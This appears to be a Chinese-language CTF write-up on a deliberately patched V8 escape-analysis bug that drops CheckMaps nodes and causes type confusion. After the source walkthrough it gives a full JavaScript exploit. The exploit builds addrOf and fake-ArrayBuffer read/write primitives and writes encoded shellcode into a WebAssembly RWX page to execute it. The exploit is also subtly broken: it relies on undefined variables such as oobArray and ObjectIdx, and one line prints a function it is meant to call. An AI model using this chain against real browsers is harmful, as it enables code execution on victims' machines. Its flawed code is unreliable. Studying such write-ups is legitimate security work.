






## 借这道题来学习一下逃逸分析

我们首先通过这个ppt来简单了解一些基础知识：
https://www.jfokus.se/jfokus18/preso/Escape-Analysis-in-V8.pdf

## 基础补充

#### 逃逸对象
在函数执行完毕之后不会被回收的对象被称为逃逸对象，jit会对此类对象做优化。

```
function func() {
    var a = [];
    return a;
}
func();
```
对象a在函数中被创建，但是传递到了函数外被使用，所以他是逃逸对象。

```
var a;
function func() {
    a = [];
}
func();
```
对象a在函数外创建，在函数内被使用，他同样也是一个逃逸对象。

```
function (foo) {
    let o = {};
    foo(o);
}
```
将另一个函数作为一个参数，并在当前这个函数里调用另一个函数，JIT将无法在编译时确定foo会做什么，由此，o会发生逃逸

#### 优化未逃逸的对象

对于未逃逸的对象，jit会将其优化为局部变量。
```
function func(a) {
   let v = {x:a,y:a};
   return v.x+v.y;
}

那么该函数会被优化为
function func(a) {
   return a+a;
}
```

#### Escape Analysis in Turbofan

示例代码：
```
let a = {x : null};
let b = {y: 5};
a.x = b;
if (i > 10){
    a.x.y = i;
}
foo();
return a.x.y;
```




可以看到Turbofan会为每个node创建一个Virtual Object，并且在其中保存了shape（我习惯叫map，下面就都以map称呼他了）。

代码位于src/compiler/escape-analysis.cc
```
    case IrOpcode::kStoreField: {
      Node* object = current->ValueInput(0);
      Node* value = current->ValueInput(1);
      const VirtualObject* vobject = current->GetVirtualObject(object);
      //获取对象的Virtual Object
      Variable var;
      //如果对象没有逃逸
      if (vobject && !vobject->HasEscaped() &&
          vobject->FieldAt(OffsetOfFieldAccess(op)).To(&var)) {
        current->Set(var, value); //将对象中保存的值赋给一个变量。
        current->MarkForDeletion(); //添加删除节点的标记。
      } else {
        current->SetEscaped(object);
        current->SetEscaped(value);
      }
      break;
    }
```



```
case IrOpcode::kLoadField: {
      Node* object = current->ValueInput(0);
      const VirtualObject* vobject = current->GetVirtualObject(object);
      //获取对象的Virtual Object
      Variable var;
      Node* value;
      //如果对象没有逃逸
      if (vobject && !vobject->HasEscaped() &&
          vobject->FieldAt(OffsetOfFieldAccess(op)).To(&var) &&
          current->Get(var).To(&value)) {
        将变量中的值替换进Virtual Object。
        current->SetReplacement(value);
      } else {
        current->SetEscaped(object);
      }
      break;
    }
```



上面图中的操作主要涉及到了源码中的上述两部分，详情请看代码中的注释。


对于外部函数，由于不确定他的行为，所以这里会保存一个用于反优化的快照。



#### 题目分析

```
diff --git a/src/compiler/escape-analysis.cc b/src/compiler/escape-analysis.cc
index 2a096b6933..3046d7b04e 100644
--- a/src/compiler/escape-analysis.cc
+++ b/src/compiler/escape-analysis.cc
@@ -178,7 +178,7 @@ class EscapeAnalysisTracker : public ZoneObject {
         : VariableTracker::Scope(&tracker->variable_states_, node, reduction),
           tracker_(tracker),
           reducer_(reducer) {}
-    const VirtualObject* GetVirtualObject(Node* node) {
+    VirtualObject* GetVirtualObject(Node* node) {
       VirtualObject* vobject = tracker_->virtual_objects_.Get(node);
       if (vobject) vobject->AddDependency(current_node());
       return vobject;
@@ -576,10 +576,14 @@ void ReduceNode(const Operator* op, EscapeAnalysisTracker::Scope* current,
     case IrOpcode::kStoreField: {
       Node* object = current->ValueInput(0);
       Node* value = current->ValueInput(1);
-      const VirtualObject* vobject = current->GetVirtualObject(object);
+      VirtualObject* vobject = current->GetVirtualObject(object);
       Variable var;
       if (vobject && !vobject->HasEscaped() &&
           vobject->FieldAt(OffsetOfFieldAccess(op)).To(&var)) {
+        // Attach cached map info to the virtual object.
+        if (OffsetOfFieldAccess(op) == HeapObject::kMapOffset) {
+          vobject->SetMap(value);
+        }
         current->Set(var, value);
         current->MarkForDeletion();
       } else {
@@ -747,6 +751,17 @@ void ReduceNode(const Operator* op, EscapeAnalysisTracker::Scope* current,
           // yet.
           break;
         }
+      } else if (vobject) {
+        Node* cache_map = vobject->Map();
+        if (cache_map) {
+          Type const map_type = NodeProperties::GetType(cache_map);
+          if (map_type.IsHeapConstant() &&
+              params.maps().contains(
+                  map_type.AsHeapConstant()->Ref().AsMap().object())) {
+            current->MarkForDeletion();
+            break;
+          }
+        }
       }
       current->SetEscaped(checked);
       break;
@@ -804,6 +819,12 @@ void ReduceNode(const Operator* op, EscapeAnalysisTracker::Scope* current,
       for (int i = 0; i < value_input_count; ++i) {
         Node* input = current->ValueInput(i);
         current->SetEscaped(input);
+
+        // Invalidate associated map cache for all value input nodes.
+        VirtualObject* vobject = current->GetVirtualObject(input);
+        if (vobject) {
+          vobject->SetMap(nullptr);
+        }
       }
       if (OperatorProperties::HasContextInput(op)) {
         current->SetEscaped(current->ContextInput());
diff --git a/src/compiler/escape-analysis.h b/src/compiler/escape-analysis.h
index 0fbc7d0bdd..ec56488388 100644
--- a/src/compiler/escape-analysis.h
+++ b/src/compiler/escape-analysis.h
@@ -147,11 +147,14 @@ class VirtualObject : public Dependable {
   bool HasEscaped() const { return escaped_; }
   const_iterator begin() const { return fields_.begin(); }
   const_iterator end() const { return fields_.end(); }
+  Node* Map() const { return map_; }
+  void SetMap(Node* map) { map_ = map; }

  private:
   bool escaped_ = false;
   Id id_;
   ZoneVector<Variable> fields_;
+  Node* map_;
 };

 class EscapeAnalysisResult {
```

补丁内容比较多，这里将关键的内容摘出来：

```
    case IrOpcode::kStoreField: {
      Node* object = current->ValueInput(0);
      Node* value = current->ValueInput(1);
      VirtualObject* vobject = current->GetVirtualObject(object);
      Variable var;
      if (vobject && !vobject->HasEscaped() &&
          vobject->FieldAt(OffsetOfFieldAccess(op)).To(&var)) {
        // Attach cached map info to the virtual object.
        
        --------------------------------------------------------
        // patch 添加内容
        if (OffsetOfFieldAccess(op) == HeapObject::kMapOffset) {
          vobject->SetMap(value); //拷贝一份map值
        }
        --------------------------------------------------------
        
        current->Set(var, value);
        current->MarkForDeletion(); 
      } else {
        current->SetEscaped(object);
        current->SetEscaped(value);
      }
      break;
    }
    
    
        case IrOpcode::kCheckMaps: {
      CheckMapsParameters params = CheckMapsParametersOf(op);
      Node* checked = current->ValueInput(0);
      const VirtualObject* vobject = current->GetVirtualObject(checked);
      Variable map_field;
      Node* map;
      if (vobject && !vobject->HasEscaped() &&
          vobject->FieldAt(HeapObject::kMapOffset).To(&map_field) &&
          current->Get(map_field).To(&map)) { //对象未逃逸
        if (map) {
          Type const map_type = NodeProperties::GetType(map);
          if (map_type.IsHeapConstant() &&
              params.maps().contains(
                  map_type.AsHeapConstant()->Ref().AsMap().object())) {
            current->MarkForDeletion();
            break;
          }
        } else {
          // If the variable has no value, we have not reached the fixed-point
          // yet.
          break;
        }
       
       --------------------------------------------------------
       //patch
      } else if (vobject) { //对象逃逸
        Node* cache_map = vobject->Map();
        if (cache_map) { //如果该对象存在map的副本
          Type const map_type = NodeProperties::GetType(cache_map);
          if (map_type.IsHeapConstant() &&
              params.maps().contains(
                  map_type.AsHeapConstant()->Ref().AsMap().object())) {
            current->MarkForDeletion(); //将这个checkmap标记为删除状态
            break;
          }
        }
      }
      --------------------------------------------------------
      current->SetEscaped(checked);
      break;
    }
```

从Escape Analysis in V8文献中可以看出，在逃逸分析时，使用树结构来保存各个节点的checkmap，这样进行复制时，只需要O(1)的时间，进行状态更新和访问时，只需要O(log n)的时间。checkmap决定了这个节点生成的JIT该以什么方式去操作对象。如果checkmap缺失，将导致生成的JIT代码有问题，发生类型混淆。

```
default: {
      // For unknown nodes, treat all value inputs as escaping.
      int value_input_count = op->ValueInputCount();
      for (int i = 0; i < value_input_count; ++i) {
        Node* input = current->ValueInput(i);
        current->SetEscaped(input);

      --------------------------------------------------------
        //patch
        // 将该节点的map_设置为null
        VirtualObject* vobject = current->GetVirtualObject(input);
        if (vobject) {
          vobject->SetMap(nullptr);
        }
      }
      --------------------------------------------------------
      if (OperatorProperties::HasContextInput(op)) {
        current->SetEscaped(current->ContextInput());
      }
      break;
    }
```

#### poc

首先需要明确目标，我们是要触发CheckMap中的current->MarkForDeletion();下面理一下需要注意的条件：
- 满足kStoreField中的判断，之后执行vobject->SetMap(value);
- 需要进入kCheckMaps中的else if (vobject) { //对象逃逸分支
- cache_map = vobject->Map();不为空。

接下来有几个注意事项：

```
function fake(foo) {
   var a = [1.1]; 
   foo(a); 
   return a[0];
}

for (var i=0;i<0x20000;i++) {
   fake((o)=>{});
}
```
如果采用此种方法进行优化，turbofan将会进行InLining优化，代码将会变为：
```
function fake(foo) {
   var a = [1.1]; 
   return a[0];
}
```

其次
```
fake((o)=>{});
x = Array(0);
print(fake((o)=>{o[0] = x;}));
```
这里fake函数的参数改变将会触发deopt，我们需要多执行几次，这样使得之后的fake函数可以直接匹配jit代码

```
function fake(foo) {
   //触发JIT编译
   for (var i=0;i<0x20000;i++) {
   }
   var a = [1.1]; 
   var b = [a]; 
   foo(b); 
   return a[0];
}

for (var i=0;i<0x10;i++) {
   fake((o)=>{});
}
x = Array(0);
print(((o)=>{o[0][0] = x;}));
```
这里引入b主要是为了避免在kCheckMaps:之前先进入了default把map_值给清空了。


## 最终exp

```
const buf = new ArrayBuffer(8);
const f64 = new Float64Array(buf);
const u32 = new Uint32Array(buf);
// Floating point to 64-bit unsigned integer
function f2i(val)
{ 
    f64[0] = val;
    let tmp = Array.from(u32);
    return tmp[1] * 0x100000000 + tmp[0];
}
// 64-bit unsigned integer to Floating point
function i2f(val)
{
    let tmp = [];
    tmp[0] = parseInt(val % 0x100000000);
    tmp[1] = parseInt((val - tmp[0]) / 0x100000000);
    u32.set(tmp);
    return f64[0];
}
// 64-bit unsigned integer to hex
function hex(i)
{
    return i.toString(16).padStart(16, "0");
}

function success_value(msg, value) {
    console.log("[+] "+msg+hex(value));
}

function d2u(num1,num2){ // uint32*2 --> float64
    d = new Uint32Array(2);
    d[0] = num2;
    d[1] = num1;
    f = new Float64Array(d.buffer);
    return f[0];
}

function wasm_func() {
    var wasmImports = {
        env: {
            puts: function puts (index) {
                console.log(index);
            }
        }
    };
    var buffer = new Uint8Array([0,97,115,109,1,0,0,0,1,137,128,128,128,0,2,
        96,1,127,1,127,96,0,0,2,140,128,128,128,0,1,3,101,110,118,4,112,117,
        116,115,0,0,3,130,128,128,128,0,1,1,4,132,128,128,128,0,1,112,0,0,5,
        131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,146,128,128,128,0,2,6,
        109,101,109,111,114,121,2,0,5,104,101,108,108,111,0,1,10,141,128,128,
        128,0,1,135,128,128,128,0,0,65,16,16,0,26,11,11,146,128,128,128,0,1,0,
        65,16,11,12,72,101,108,108,111,32,87,111,114,108,100,0]);
    let m = new WebAssembly.Instance(new WebAssembly.Module(buffer),wasmImports);
    let h = new Uint8Array(m.exports.memory.buffer);
    return m.exports.hello;
}

function gc()
{
    for(let i=0;i<0x10;i++)
    {
        new Array(0x1000000);
    }
}

var a = (function (value) {
    if (value) {
        console.log('hello');
    }
});

var objArray = undefined;
var dataBuf = undefined;

function fake(foo) {
   //触发JIT编译
   for (var i=0;i<0x20000;i++) {
   }
   var a = [1.1]; 
   var b = [a]; 
   foo(b); 
   return a[0];
}

for (var i=0;i<0x10;i++) {
   fake((o)=>{});
}
x = Array(0);
print(((o)=>{o[0][0] = x;}));

var ab = new ArrayBuffer(0x200);

var fakeABMap = [
    i2f(0x000011e0e8602259), 
    i2f(0x1900042313080808),
    i2f(0x00000000082003ff),
    1.1, // prototype
    2.2, // constructor
    0,
]

var fakeAB = [
    1.1, // ArrayBuffer Map;
    2.2,  // properties (whatever);
    3.3,  // elements (whatever);
    i2f(0x40000000000), // length 0x400
    4.4, // backing store;
    i2f(0x0000000000000004), // copy form ab stucture
    i2f(0)
];

gc();gc();gc();

//%SystemBreak();

// build addrOf primitive 
function addrOf(objPara)
{
    var addr = fake((o)=>{o[0][0] = objPara;});
    return f2i(addr);
}

var abMapProtoAddr = addrOf(ab.__proto__);
var abMapConstructAddr = abMapProtoAddr - 0x70;
print("[+] ArrayBuffer Map prototype addr: 0x"+hex(abMapProtoAddr -1));
print("[+] ArrayBuffer Map Constructor addr: 0x"+hex(abMapConstructAddr-1));
fakeABMap[3] = i2f(abMapProtoAddr);
fakeABMap[4] = i2f(abMapConstructAddr);
//%DebugPrint(fakeAB);
//%SystemBreak();

var fakeABMapAddr = addrOf(fakeABMap) + 0x30; // elements addr of fakeABMap
print("[+] fake ArrayBuffer Map addr: 0x"+hex(fakeABMapAddr-1));
//%DebugPrint(fakeAB);
//%SystemBreak();
fakeAB[0] = i2f(fakeABMapAddr);


var fakeABAddr = addrOf(fakeAB) + 0x30 ; // elements addr of fakeAB
print ("[+] fake ArrayBuffer addr: 0x"+hex(fakeABAddr - 1));
//%SystemBreak();

oobArray[ObjectIdx] = i2f(fakeABAddr);
var fakeABObj=objArray.target;
//%DebugPrint(fakeABObj);
//%SystemBreak();
var dataView = new DataView(fakeABObj);
// aar primitive
function dataViewRead64(addr)
{

    fakeAB[4] = addr; // overwrite fakeAB[4], which is corresponding to backing store pointer
    return f2i(dataView.getFloat64(0, true));
}

// aaw primitive
function dataViewWrite(addr, payload)
{

    fakeAB[4] = addr;

    for (let i=0; i<payload.length; i++) {
        dataView.setUint8(i, payload[i]);
    }
    return ;
}

func = wasm_func();

var wasmObjAddr = addrOf(func);
var sharedInfoAddr = dataViewRead64(i2f(wasmObjAddr+0x18-1));
var wasmExportedFunctionDataAddr = dataViewRead64(i2f(sharedInfoAddr+8-1));
var instanceAddr = dataViewRead64(i2f(wasmExportedFunctionDataAddr+0x10-1));
var rwxAddr = dataViewRead64(i2f(instanceAddr+0xe0-1));

print("[+] wasm obj addr: 0x"+hex(wasmObjAddr));
print("[+] wasm shared info addr: 0x"+hex(sharedInfoAddr));
print("[+] wasmExportedFunctionData addr addr: 0x"+hex(wasmExportedFunctionDataAddr));
print("[+] instance  addr: 0x"+hex(instanceAddr));
print("[+] rwx addr: 0x"+hex(rwxAddr+0x12));


var shellcode=[72, 49, 201, 72, 129, 233, 247, 255, 255, 255, 72, 141, 5, 239, 255, 255, 255, 72, 187, 124, 199, 145, 218, 201, 186, 175, 93, 72, 49, 88, 39, 72, 45, 248, 255, 255, 255, 226, 244, 22, 252, 201, 67, 129, 1, 128, 63, 21, 169, 190, 169, 161, 186, 252, 21, 245, 32, 249, 247, 170, 186, 175, 21, 245, 33, 195, 50, 211, 186, 175, 93, 25, 191, 225, 181, 187, 206, 143, 25, 53, 148, 193, 150, 136, 227, 146, 103, 76, 233, 161, 225, 177, 217, 206, 49, 31, 199, 199, 141, 129, 51, 73, 82, 121, 199, 145, 218, 201, 186, 175, 93];
dataViewWrite(i2f(rwxAddr+0x12), shellcode);

func();

```